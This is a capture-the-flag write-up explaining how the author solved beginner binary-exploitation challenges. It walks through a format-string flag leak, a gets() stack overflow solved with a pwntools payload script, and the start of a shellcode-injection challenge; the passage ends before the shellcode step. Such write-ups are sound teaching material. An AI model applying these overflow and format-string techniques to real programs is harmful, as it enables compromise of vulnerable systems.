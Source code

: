 # PWN : Detailed binary exploitation writeup 
I have created a simple writeup about the four tasks I completed in the CTF.
all these tasks involve basic binary exploitation vulnerabilities , you just need to identify the vulnerability and how to exploit it.
There are no stripped binaries or anything complex , everything is straightforward.
## First challenge ( Warmup ) : simple format string vulnerability
In this task, you are provided with a simple binary. If you try to reverse it and dig a little deeper, you will find something interesting.
```C
      printf("Tell me your secret >> ");
      fgets(local_228,0x108,stdin);
      iVar1 = strncmp(local_228,local_118,0x108);
      if (iVar1 == 0) break;
      printf(local_228);
```
The function printf() doesn't specify the type of the variable that it's going to print. In this case, we have a format string vulnerability, allowing us to leak data from the stack.
```C
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("The flag.txt file does not exist, please create it");
    uVar2 = 0xffffffff;
  }
```
Additionally, we have read the flag from the server and stored it in memory, so it's possible to leak the flag from memory.

## Second challenge ( Baby BOF ) : Buffer overflow to overwrite variable value
first of all we have to check the binary if the mitigations are enabled :
```console
checksec babybof
[*] '/home/elmentos/Desktop/Romdhan_CTF_TASKS/BabyBOF(Done)/to_host/babybof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
In this case, the buffer overflow protection is disabled, so let's dig deeper and see how we can exploit this to solve the challenge.
After reversing the binary with ghidra we have found :
```C
  char local_38 [44];
  int local_c;
  setup();
  local_c = 0x1337;
  puts(
      "*---------------------------------------------------------------x1NF3RN0x-------------------- ---------------------------------------*"
      );
  puts(
      "*-------They told me that there are new pwn learners in this CTF, so I made this as an intro to buffer overflow---------------------*"
      );
  puts(
      "*-------Show me what you can do, and I will tell you my secret. Good luck!<3----------------- ---------------------------------------*"
      );
  printf("*-------Tell me the secret of the Spark Vault locker ^-^ : ");
  gets(local_38);
  if (local_c == 0x1338) {
    puts("You won :),that was easy right !!!!!!!! \n");
    puts("Here is my secret :\n");
    system("/bin/cat flag.txt");
```
Here, we have a variable called local_38 declared with a size of 44 bytes. The issue is that there is no user input control for the length of local_38, so we can overflow the memory. In other words, we can access other memory cells.
!! Don't use gets
so in this challenge we have a variable called local_c intialized with the value 0x1337 , we have to overwrite it with 0x1338 to make the condition true to let the program print the flag .
### First Step : search for the appropriate offest between the input var (local_38) and the local_c in other words we have to search how many bytes to write until we reach the local_c :
don't worry, assembly is easy , you just have to take your time learning it. 
Anyway, here we have, after the printf function:
```asm
   0x0000000000401276 <+89>:	call   0x4010b0 <printf@plt>
   0x000000000040127b <+94>:	lea    rax,[rbp-0x30]
   0x000000000040127f <+98>:	mov    rdi,rax
   0x0000000000401282 <+101>:	mov    eax,0x0
   0x0000000000401287 <+106>:	call   0x4010c0 <gets@plt>
   0x000000000040128c <+111>:	cmp    DWORD PTR [rbp-0x4],0x1338
```
```asm
   0x000000000040127b <+94>:	lea    rax,[rbp-0x30]
```
This instruction saves the address of rbp-0x30 in the register rax. Logically, he is planning to pass the rax register as an argument to the get functions. After that, he is calling the gets function. So here, we can conclude that he is storing the input in rbp-0x30 : 
```asm
   0x000000000040127b <+94>:	lea    rax,[rbp-0x30]
   0x000000000040127f <+98>:	mov    rdi,rax
   0x0000000000401282 <+101>:	mov    eax,0x0
   0x0000000000401287 <+106>:	call   0x4010c0 <gets@plt>
```
And in this part, he is comparing the value that is stored in rbp-0x4 with 0x1338, so we can conclude that the variable we have to overwrite is at the address rbp-0x4 :
```asm
   0x000000000040128c <+111>:	cmp    DWORD PTR [rbp-0x4],0x1338
```
so now lets' calculate the offset between the input ( local_38 ) and the variable we have to overwrite ( local_c ) :
0x30 - 0x4 = 44 (in decimal)
let's craft our payload : 
```python
  padding = b"A" * 44
  payload = padding + p64(0x1338)
```
The padding or the offset + the value we have to overwrite local_c with  in little endian format and size of 8 bytes because we are working with a 64-bit architecture.
```python
  #!/usr/bin/python3
  from pwn import *
  p = process('./babybof')
  padding = b"A" * 44
  print(padding)
  payload = padding + p64(0x1338)
  print(p.clean().decode())
  print(payload)
  print(payload.decode())
  p.sendline(payload)
  print(p.clean())
```
## Third Challenge (Escape the Jail): Buffer Overflow that Leads to Shellcode Injection
as usual, we start by checking the binary security to get an overview of the possible attacks :
```console
checksec escape_the_jail
[*] '/home/elmentos/Desktop/Romdhan_CTF_TASKS/escape_the_jail(Done)/to_host/escape_the_jail'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
Here, the buffer overflow protection is disabled, and NX (which prevents malicious code execution in the stack) is also disabled. In our case, we can execute shellcode and perform a buffer overflow attack. However, we have a minor issue: the addresses are not static, so each time the program executes, the addresses, such as function addresses and variable addresses, will change.
Now let's move on to the next step, which is reversing the binary and checking for vulnerabilities :
```C
  puts("--1 => Help Omran : ");
  puts("--2 => Give up on Omran : ");
  fgets(local_e,2,stdin);
  if (local_e[0] == '1') {
    puts("sorry, bro you have to enter the jail to help me :/ ");
    printf("But Omran left you this : %p \n",local_58);
    puts("Does this look helpful for breaking into the jail? : ");
    do {
      local_c = getchar();
      if (local_c == 10) break;
    } while (local_c != -1);
    gets(local_58);
  }
  else if (local_e[0] == '2') {
    puts("I\'m disappointed bro , Anyway I expected that you could do it ");
    puts("Good bye!!!!!");
  }
```
here is the interseting part the first fgets() he is asking the user to choose to help omran or to give up on him , when you choof to help omran you will find some intersting informations that you have to enter the jail to help omran and in this function  :
```C
    printf("But Omran left you this : %p \n",local_58);
``` 
He is printing back the address of local_58 in the shellcode attack  , this returned address can be interesting , it means that we are going to insert our code in this place and then force the program to jump to that address to execute the shellcode.
let's make sure that local_58 is the place where we are going to inject our shell into it : 
```C
    do {
      local_c = getchar();
      if (local_c == 10) break;
    } while (local_c != -1);
    gets(local_58);
```
Now that we are sure we are going to inject our shellcode into local_58 and then return to force the program to execute the shellcode stored in local_58.
### lets' explain more how we are going to build our exploit : 
#### first step 






